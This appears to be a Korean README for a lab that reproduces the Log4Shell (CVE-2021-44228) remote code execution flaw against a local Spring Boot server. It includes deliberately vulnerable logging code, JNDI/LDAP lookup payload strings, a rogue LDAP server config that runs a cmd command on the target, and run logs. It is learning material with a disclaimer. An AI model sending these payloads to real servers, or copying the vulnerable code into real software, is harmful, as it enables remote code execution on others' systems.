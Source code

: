 # Log4j2 2.14.1 LDAP 원격 코드 실행 취약점(CVE-2021-44228) 확인

> 🎈 Spring Boot 2.x 환경에서 테스트

* 취약점 공지
  * https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## [target-server](target-server)

* pom.xml : Log4j2 버전을 취약버전으로 낮춤

  ```xml
  <properties>
    <java.version>17</java.version>
    <!-- 현재 설정된 Spring Boot 버전은 취약점이 존재하는 log4j 2.14.1 보다 높은 버전을 가지기 때문에, 일부러 버전을 낮춘다.-->
    <log4j2.version>2.14.1</log4j2.version>
  </properties>
  ```

* LoggingController : 사용자의 입력을 그대로 받아 로깅하는 컨트롤러 메서드 추가
  ```java
    @PostMapping("/form")
    public String form(String ldapString, RedirectAttributes rttr) {
      try {
        LOGGER.info("{}", ldapString);
        rttr.addFlashAttribute("exception", "예외 발생 X");
      } catch (Exception e) {
        rttr.addFlashAttribute("exception", "예외발생 O: " + e.getMessage());
      }
      return "redirect:/";
    }
  ```

* 브라우저 실행

  ![target-server-view.png](doc-resources/target-server-view.png)



### 동작 확인 내용

1. 실제로 `${jndi:ldap://127.0.0.1:19090/run}` 문자열을 서버로 전송했을 때, 서버가 `127.0.0.1:19090` 로 접속을 시도한다.

   ```
   2022-01-03 13:16:52.526  INFO 14736 --- [nio-8080-exec-7] o.m.t.c.LoggingController                : ${jndi:ldap://127.0.0.1:19090/run}
   2022-01-03 13:17:09,993 http-nio-8080-exec-10 WARN Error looking up JNDI resource [ldap://127.0.0.1:19090/run]. javax.naming.CommunicationException: 127.0.0.1:19090 [Root exception is java.net.ConnectException: Connection refused: connect]
   ...
   ```

   로컬의 19090 포트에 LDAP 서버가  켜져 있는 것은 아니여서 `Connection refused: connect` 예외로 에러 로그가 남음.

2. `LOGGER.info("{}", ldapString);` 코드에서 **JNDI 에러 예외가 던져지지 않았다.** 

   * 로그를 자세하게 확인하지 않고 지나가면 잊고 지나가기 쉬운 문제인 것 같다.





## [ldap-server](ldap-server)  

https://github.com/veracode-research/rogue-jndi  이 코드에서 Tomcat 관련된 부분만 조사해서, 단순한 Spring Boot 프로젝트로 구성했다.

Tomcat관련 부분만 조사한 이유는...

일단 대상 테스트 서버가 Spring Boot의 내장 톰켓 기반이여서, Tomcat만 조사하여도 취약점 동작을 확인할 수 있을 것으로 보여 그렇게 진행했다.

**명령문 준비**

단순 계산기만 수행하기에는 너무 단순해서 cmd 명령어를 조합해보았다.

* ldapserver-config.properties 

  ```properties
  # 타겟 서버의 윈도우 OS 버전을 텍스트 파일에 기록한 다음 메모장으로 여는 내용
  ldaptest.remote.command=cmd /c ver > test.txt && notepad test.txt
  ...
  ```

  

실제로 해보니 정말로 테스트 타겟서버의 실행파일 원격 실행이 가능했다. 확인 방법은 아래와 같다.

1. ldap-server 서버, traget-server 실행

   ```bash
   # LDAP 서버 실행
   C:\git-mklinkj\log4j2-test\ldap-server>mvnw clean spring-boot:run
   
   # 테스트 타겟 서버 실행
   C:\git-mklinkj\log4j2-test\target-server>mvnw clean spring-boot:run
   ```

   

2. 테스트 타겟 서버에서 `${jndi:ldap://127.0.0.1:19090/o=tomcat}` 문자열 전송 후 확인

   ![remote-code-executed](doc-resources/remote-code-executed.png)

   **target-server 프로젝트 루트에 test.txt파일이 만들어지고, 메모장을 통해 실행이 되었음.**

   




## Java 15이상 환경에서 동작확인시...

타겟 Tomcat에 보낼 Payload 생성에 Java의 JavaScript 구현 Nashorn을 사용하는데, Java 15부터 Nashorn이 완전히 제거되었다. 그래서 ldap 서버가 타겟 Tomcat으로 명령어는 보냈지만 명령어가 실행되지 않는 문제가 있었다.

이때는..  nashorn-core 또는 rhino-engine 둘 중 하나만 타겟 Tomcat 서버에 라이브러리로 추가해주면 되었다.

```xml
<dependency>
  <groupId>org.openjdk.nashorn</groupId>
  <artifactId>nashorn-core</artifactId>
  <version>${nashorn.version}</version>
</dependency>
```

```xml
<dependency>
  <groupId>org.mozilla</groupId>
  <artifactId>rhino-engine</artifactId>
  <version>${rhino-engine.version}</version>
</dependency>
```

* 참고
  * JEP 372: Remove the Nashorn JavaScript Engine
    * https://openjdk.java.net/jeps/372
  * Known problems and workarounds
    * https://apache.github.io/jmeter-site-preview/site/changes.html



## Maven POM 부모-자식 관계에서 프로젝트 실행

**버전 관리를 편하게 하려고** `부모-자식` 관계로 pom.xml을 수정했는데, 다음과 같이 부모 pom 이 있는 디렉토리에서 실행할 수 있다.

```bash
# 전체 테스트
$ mvnw clean test

# 백그라운드로 실행하지 않으므로 별도의 콘솔창에서 각각 실행햐아한다.
$ mvnw clean spring-boot:run -pl ldap-server
$ mvnw clean spring-boot:run -pl target-server

# 하위 프로젝트 디렉토리에 직접 들어가서 실행해도 된다.
$ cd target-server
$ mvnw clean spring-boot:run
```



## 후기

* 실제로 진행보니 이 취약점을 방치하면 정말 위험한 것 같다. 개발, 스테이징 환경에서 테스트를 해서 LDAP 접속을 발생시키는 부분이 없는지 확인 되어야할 것 같다.
* [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 레파지토리 작성하신  [Michael Stepankin](https://twitter.com/artsploit) 님 덕분에 확인을 할 수 있게되어 감사합니다.  😄



### 면책 조항 

이 소프트웨어는 교육 목적 및/또는 사용자가 사전에 공격을 허용한 시스템 테스트용으로만 제공됩니다. <br> ([rogue-jndi](https://github.com/veracode-research/rogue-jndi)에도 이 문구를 추가 하셨길레 따라서 넣었다. 😓)
